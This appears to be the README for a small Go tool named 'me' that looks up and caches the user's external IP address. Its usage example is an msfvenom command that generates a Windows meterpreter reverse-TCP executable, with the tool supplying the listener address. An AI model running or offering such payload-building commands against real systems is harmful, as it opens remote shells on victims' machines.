 # me

## Install

```
go install github.com/cokeBeer/me@latest
```

## Usage
For example, we can generate a meterpreter on your VPS and fill the `LHOST` parameter simply by `me`
```
msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=`me` LPORT=4444 >mp.exe
```
Your will never need to query your external ip and paste it.

## how it work
For the first time, `me` will request some apis to get your external ip and save the ip to `$USER/.myexternalip`.
```
http://myexternalip.com/raw
http://api.ipify.org/
https://myexternalip.com/raw
https://api.ipify.org/
```
Next time, `me` will get the ip from file.
You can use `-f` option to make `me` query again, and use `-d` option to see debug information when occur errors.